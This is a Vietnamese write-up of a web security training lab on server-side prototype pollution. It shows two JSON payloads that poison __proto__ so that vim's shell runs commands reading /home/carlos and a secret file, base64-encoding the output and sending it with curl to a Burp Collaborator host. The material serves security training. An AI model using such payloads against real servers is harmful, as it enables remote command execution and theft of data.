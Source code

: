## 10.Lab: Exfiltrating sensitive data via server-side prototype pollution

### Đề bài

![image](https://hackmd.io/_uploads/S18mXNBEke.png)

### Phân tích

- chúng ta cần kích hoạt thực thi từ xa một lệnh rò rỉ nội dung trong thư mục gốc của Carlos ( /home/carlos) tới máy chủ Burp Collaborator công khai.
  Truyền nội dung của một tập tin bí mật trong thư mục này tới máy chủ Burp Collaborator công khai.

![image](https://hackmd.io/_uploads/rkuC7NrNJg.png)

![image](https://hackmd.io/_uploads/rykfVVHVyx.png)

### Khai thác

Vào bảng quản trị và thấy có nút để chạy công việc bảo trì.

Nhấp vào nút và quan sát rằng điều này kích hoạt các tác vụ nền dọn dẹp cơ sở dữ liệu và hệ thống tệp. Đây là ví dụ điển hình về loại chức năng có thể tạo ra các tiến trình con của nút.

![image](https://hackmd.io/_uploads/SJ7KVNHEkl.png)

![image](https://hackmd.io/_uploads/rkXVBNHNyg.png)

![image](https://hackmd.io/_uploads/HyFq4ESEJg.png)

```javascript
"__proto__": {
    "shell":"vim",
    "input":":! ls /home/carlos | base64 | curl -d @-  https://hh2mqe70s85t2iqywomsc46m0d64u2ir.oastify.com\n"
}
```

![image](https://hackmd.io/_uploads/rkzcSNHV1e.png)

![image](https://hackmd.io/_uploads/BkJ_rNBEJe.png)

Lưu ý rằng bạn đã nhận được một POSTyêu cầu HTTP mới với nội dung được mã hóa Base64.

Giải mã nội dung của cơ thể để khám phá bí mật

```javascript
"__proto__": {
    "shell":"vim",
    "input":":! cat /home/carlos/secret | base64 | curl -d @-  https://hh2mqe70s85t2iqywomsc46m0d64u2ir.oastify.com\n"
}
```
